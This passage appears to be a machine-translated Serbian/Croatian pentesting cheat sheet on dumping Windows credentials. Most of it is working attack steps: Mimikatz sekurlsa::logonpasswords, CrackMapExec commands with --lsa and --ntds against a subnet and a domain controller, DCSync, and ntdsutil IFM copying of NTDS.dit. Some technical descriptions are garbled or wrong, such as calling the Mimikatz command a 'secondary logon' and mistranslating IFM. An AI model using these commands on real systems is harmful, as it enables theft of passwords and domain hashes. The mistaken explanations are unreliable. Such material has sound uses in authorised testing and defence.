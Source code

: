 Da biste preuzeli LSA tajne, možete koristiti alat kao što je "Mimikatz". Ovaj alat omogućava da se izvrši "sekundarni logon" na Windows mašini i preuzmu LSA tajne.

Evo kako možete izvršiti ovu tehniku:

1. Preuzmite "Mimikatz" alat sa zvanične web stranice.
2. Pokrenite "Mimikatz" alat na ciljnom Windows sistemu.
3. Izvršite "sekundarni logon" komandom `sekurlsa::logonpasswords`.
4. Prikupite preuzete LSA tajne koje sadrže korisnička imena i lozinke.

Važno je napomenuti da je ova tehnika ilegalna i može biti kršenje privatnosti. Upotreba ovog alata treba biti u skladu sa zakonima i regulativama.

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsa
```

### Dumpujte NTDS.dit sa ciljnog DC-a

Da biste izvršili ovu tehniku, možete koristiti alat kao što je `mimikatz` ili `ntdsutil`. Ovi alati omogućavaju izvlačenje NTDS.dit baze podataka sa ciljnog kontrolera domena (DC).

#### Korišćenje alata `mimikatz`

1. Preuzmite `mimikatz` alat sa [zvanične GitHub stranice](https://github.com/gentilkiwi/mimikatz/releases).
2. Pokrenite `mimikatz` alat na ciljnom DC-u.
3. Unesite komandu `lsadump::dcsync /domain:<ime domena>` kako biste izvršili izvlačenje NTDS.dit baze podataka.

#### Korišćenje alata `ntdsutil`

1. Pokrenite `cmd.exe` kao administrator na ciljnom DC-u.
2. Unesite komandu `ntdsutil` kako biste pokrenuli `ntdsutil` alat.
3. Unesite komandu `activate instance ntds` kako biste aktivirali instancu NTDS.dit baze podataka.
4. Unesite komandu `ifm` kako biste prešli u režim "Install from Media".
5. Unesite komandu `create full <putanja>` kako biste kreirali punu kopiju NTDS.dit baze podataka na određenoj putanji.

Nakon izvršenja ovih koraka, dobićete kopiju NTDS.dit baze podataka sa ciljnog DC-a. Ova baza podataka sadrži hash-ove korisničkih naloga i može se koristiti za dalje analize i napade na sistem.

```
cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ cme smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

### Preuzmite istoriju lozinki NTDS.dit sa ciljnog DC-a

Da biste preuzeli istoriju lozinki NTDS.dit sa ciljnog kontrolera domena (DC), možete koristiti sledeće korake:

1. Pokrenite alat `ntdsutil` na ciljnom DC-u.
2. Unesite komandu `activate instance ntds` kako biste aktivirali instancu NTDS.
3. Unesite komandu `ifm` kako biste prešli na režim instalacije izolovane mape.
4. Unesite komandu `create full C:\path\to\output` kako biste kreirali izolovanu mapu sa punim sadržajem.
5. Unesite komandu `quit` kako biste izašli iz režima instalacije izolovane mape.
6. Unesite komandu `quit` kako biste izašli iz alata `ntdsutil`.
